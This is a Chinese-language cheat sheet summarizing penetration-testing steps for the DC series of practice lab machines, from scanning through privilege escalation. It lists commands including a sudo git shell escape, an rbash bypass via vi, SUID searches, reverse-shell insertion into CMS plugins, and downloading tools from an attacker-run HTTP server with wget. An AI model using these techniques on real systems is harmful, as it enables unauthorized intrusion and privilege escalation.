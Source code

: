 # DC系列靶机总结

## (一) 信息收集

- 扫描局域网内靶机地址:

```
sudo arp-scan -l
```

- 扫描靶机开放的端口以及详细的信息:

```
nmap -A -sV xxx_ip (查CMS种类)
```

- 扫描web目录(,寻找登录后台, 寻找可疑文件):

```
dirb  //一般
dirbuster  //可以使用dirb的字典
dirsearch  //较好
goburster
```

- 眼光不应该局限于页面的主要内容,可以使用Google去查询靶机web或其他有关于靶机的内容



## (二) 漏洞搜寻

- 首先进入靶机HTTP服务(如果有的话), 尝试sql注入, 密码暴力破解(八成不行)

- 从搜寻的CMS(如果能发现)寻找CMS的漏洞 //Google是个好帮手
- 使用相应的CMS扫描工具对靶机IP继续进行扫描,查找用户以及相关的信息
- 从网站中看看有没有什么可以提交的页面,发掘是否有文件包含漏洞
- 如果进入CMS管理系统,查看是否可以使用或下载PHP插件,在PHP页面中插入反弹shell, 或者寻找里面插件的漏洞

- 在网站中发送信息,如果可疑,用brupsuite拦截,并修改发送的值, 尝试sql注入以及文件包含

- 文件包含漏洞查询时可以使用模糊测试工具wfuzz, 查看输入的命令被包含在哪个文件中

- 使用searchsploit查询漏洞文件

````
searchsploit XXX   //搜索漏洞  
searchsploit -m exp_name  //查询漏洞所在地址
````



 

## (三) 权限提升

- 使用msf或者nc等工具登录靶机控制界面可能没有交互式shell这时需要:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 查看是否能进行suid提权

```
find / -user root -perm -4000 -print 2>/dev/null
```

- 查看当前用户是否具有某些root用户权限:
- 向文件中添加内容直接获得root权限,
- 使用 sudo  xxx 执行命令`(别忘记前面加sudo)`

```
sudo -l
```

- 查看里面有没有什么特殊的文件, 使用漏洞搜寻查找是否具有漏洞,是否可以据此提权
- git提权(sudo -l发现)

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```



## (四) 密码破解

- 在得知CMS类型的时候就可以使用相关的工具进行密码破解,比如wp-scan
- 使用hydra进行破解(一般破解ssh密码时使用这个
- cewl 抓取网站信息来充当密码
- john破解哈希值

## (五) 杂记

- rbash绕过(vi方法)

```
//选择一个文件,使用vi打开
//末行模式下:
(1)  :set shell=/bin/bash
(2)  :shell
```

- 配置hosts文件,有时DNS无法解析靶机地址,这时我们就需要自己在攻击机器上添加靶机的IP以及主机名

```
cd /etc/hosts
```

- 靶机之间的文件传输

```
// 使用python在攻击机器上开启http服务,在靶机上wget下载.注意攻击机器http服务的开启要在传送的文件同一目录下,靶机的下载要在/tmp文件夹或其他具有弱权限的文件夹下下载

//攻击机器 python2
python -m SimpleHTTPServer xxx_port
//攻击机器 python3
python -m http.server xxx_port

//靶机
wget http://xxxx_ip:xx_port/xxx_file
```

- 注意查看靶机里面邮件内容可能有惊喜

